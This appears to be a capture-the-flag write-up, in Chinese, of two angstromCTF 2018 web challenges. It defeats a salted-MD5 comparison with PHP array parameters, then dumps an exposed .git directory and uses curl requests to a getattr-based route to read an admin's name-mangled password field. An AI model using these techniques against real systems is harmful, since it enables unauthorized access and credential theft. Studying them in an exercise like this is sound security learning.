



# angstromCTF 2018 - Notes

## md5

打開頁面


有提供 source code

```php
<?php
  include 'secret.php';
  if($_GET["str1"] and $_GET["str2"]) {
    if ($_GET["str1"] !== $_GET["str2"] and
        hash("md5", $salt . $_GET["str1"]) === hash("md5", $salt . $_GET["str2"])) {
      echo $flag;
    } else {
      echo "Sorry, you're wrong.";
    }
    exit();
  }
?>
```

那我們隨便輸入 str1=1 和 str2=2 ，可以看到網址會是
```http://web.angstromctf.com:3003/?str1=1&str2=2```

改一下為
```http://web.angstromctf.com:3003/?str1[]=1&str2[]=2```

就可以看到 flag 了

## File Storer
> Description:
>
> My friend made a file storage website that he says is super secure. Can you prove him wrong and get the admin password?
> 
> Hint:
> Can't solve it? Git gud.

打開頁面



隨便註冊後登入可以看到一個上傳頁面，這裡隨便輸入一個網址



加成功後，點開看網址 ```http://web2.angstromctf.com:8899/files/hWVNF```

然後題目有說 git ，可以在 /files/發現 git

使用 [GitDumper](https://github.com/internetwache/GitTools/tree/master/Dumper)

```$ bash gitDumper.sh http://web2.angstromctf.com:8899/files/.git/ ./```


在裡面可以看到一段 code
```
#beta feature for viewing info about other users - still testing
@app.route("/user/<username>", methods=['POST'])
def getInfo(username):
    val = getattr(users[username], request.form['field'], None)
    if val != None: return val
    else: return "error"
```

輸入 ```curl "http://web2.angstromctf.com:8899/user/admin" -d "field=username"```
可以看到 admin

輸入 ```curl "http://web2.angstromctf.com:8899/user/admin" -d "field=_user__password"```
可以看到 flag

```
備註:

python 會將 __field 換成 _class__field
```


